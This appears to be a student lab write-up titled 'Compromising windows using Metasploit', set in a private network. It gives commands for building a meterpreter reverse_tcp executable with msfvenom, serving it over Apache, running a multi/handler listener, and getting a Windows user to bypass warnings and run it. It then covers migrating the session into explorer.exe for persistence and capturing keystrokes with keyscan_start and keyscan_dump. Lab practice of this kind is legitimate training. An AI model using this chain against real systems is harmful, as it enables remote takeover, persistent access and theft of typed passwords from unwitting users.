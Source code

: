 # EX-6- COMPROMISING-WINDOWS-USING-METASPLOIT

## Compromising-windows-using-Metasploit
Compromising windows using Metasploit
## Metasploit
Compromising windows using Metasploit

## AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:
Install kali linux either in partition or virtual box or in live mode

### Step 2:
Investigate on the various categories of tools as follows:

### Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/user-attachments/assets/74db2e12-b5c1-4a5e-922f-2382ac5658e7)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![image](https://github.com/user-attachments/assets/5de4f8a7-e902-4534-b25f-60ac6cf2487a)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:
![image](https://github.com/user-attachments/assets/a8ce006e-a938-4e37-9ec4-19180fafc6e0)

Start apache server sudo systemctl apache2 start

## OUTPUT:
![image](https://github.com/user-attachments/assets/23cf2b47-596c-4724-8ca3-852b2b143362)

Check the status of apache2

## OUTPUT:
![image](https://github.com/user-attachments/assets/a19f616a-4759-4bce-ba00-b04aeac056a1)

Invoke msfconsole:

## OUTPUT:
![image](https://github.com/user-attachments/assets/9d4e49b9-0494-463a-81f2-6267e152f938)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/user-attachments/assets/7bf01fd5-3fb3-40f8-ac55-340227c29832)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/092b4542-c4af-4a0f-b648-8e1ddd1468e9)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/user-attachments/assets/655726a4-b159-4cad-9547-a98dd5ee6fde)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/b4fe75ff-0114-4244-a9f2-6613643e0aa2)

On kali give the command exploit

![image](https://github.com/user-attachments/assets/276c091d-1a22-4fdf-b9c8-ab88846d717b)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/user-attachments/assets/57a353ca-0837-4ce4-8c1c-02e045039442)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/82bf7230-4c83-4017-b369-6d7b99ead749)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/user-attachments/assets/fa1fd744-98da-4410-8d6f-4fee60c6438d)
![image](https://github.com/user-attachments/assets/cf255f6f-5a4e-421b-9907-c1c0d63d81b9)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/282c022c-bfa0-4507-8716-a847d6301ad9)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

